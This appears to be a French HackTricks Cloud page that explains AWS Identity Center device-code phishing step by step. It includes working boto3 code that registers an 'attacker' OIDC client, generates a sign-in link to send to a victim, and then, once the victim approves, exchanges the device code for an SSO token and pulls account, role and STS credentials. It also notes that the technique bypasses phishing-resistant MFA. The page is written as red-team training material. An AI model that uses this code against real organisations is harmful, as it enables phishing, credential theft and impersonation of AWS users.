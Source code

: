 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## AWS Device Code Phishing

Initialement proposé dans [**cet article de blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), il est possible d'envoyer un **lien** à un utilisateur utilisant AWS SSO qui, si l'**utilisateur accepte**, permettra à l'attaquant d'obtenir un **jeton pour usurper l'identité de l'utilisateur** et accéder à tous les rôles auxquels l'utilisateur peut accéder dans le **Identity Center**.

Pour réaliser cette attaque, les prérequis sont :

* La victime doit utiliser **Identity Center**
* L'attaquant doit connaître le **sous-domaine** utilisé par la victime `<victimsub>.awsapps.com/start`

Avec les informations précédentes, l'**attaquant pourra envoyer un lien à l'utilisateur** qui, s'il est **accepté**, accordera à l'**attaquant l'accès au compte utilisateur AWS**.

### Attaque

1. **Trouver le sous-domaine**

La première étape de l'attaquant est de découvrir le sous-domaine utilisé par l'entreprise victime dans leur Identity Center. Cela peut être fait via **OSINT** ou **devinette + BF** car la plupart des entreprises utiliseront leur nom ou une variation de leur nom ici.

Avec cette information, il est possible d'obtenir la région où l'Identity Center a été configuré avec :
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Générer le lien pour la victime et l'envoyer**

Exécutez le code suivant pour générer un lien de connexion AWS SSO afin que la victime puisse s'authentifier.\
Pour la démonstration, exécutez ce code dans une console python et ne la quittez pas car plus tard, vous aurez besoin de certains objets pour obtenir le token :
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envoyez le lien généré à la victime en utilisant vos compétences exceptionnelles en ingénierie sociale !

3. **Attendez que la victime l'accepte**

Si la victime est **déjà connectée à AWS**, elle devra simplement accepter l'octroi des permissions. Si elle ne l'est pas, elle devra **se connecter puis accepter l'octroi des permissions**.\
Voici à quoi ressemble le prompt de nos jours :

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtenez le jeton d'accès SSO**

Si la victime a accepté le prompt, exécutez ce code pour **générer un jeton SSO en impersonnant l'utilisateur** :
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Le jeton d'accès SSO est **valide pendant 8h**.

5. **Usurper l'identité de l'utilisateur**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

C'est amusant de savoir que l'attaque précédente **fonctionne même si un "MFA non-phisable" (webAuth) est utilisé**. Cela est dû au fait que le **workflow précédent ne quitte jamais le domaine OAuth utilisé**. Contrairement à d'autres attaques de phishing où l'utilisateur doit remplacer le domaine de connexion, dans ce cas, le workflow du code de l'appareil est préparé de sorte qu'un **code soit connu par un appareil** et que l'utilisateur puisse se connecter même sur une machine différente. Si l'invite est acceptée, l'appareil, simplement en **connaissant le code initial**, pourra **récupérer les identifiants** de l'utilisateur.

Pour plus d'informations à ce sujet [**consultez cet article**](https://mjg59.dreamwidth.org/62175.html).

### Outils Automatiques

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Références

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Apprenez & pratiquez le Hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez & pratiquez le Hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos github.

</details>
{% endhint %}
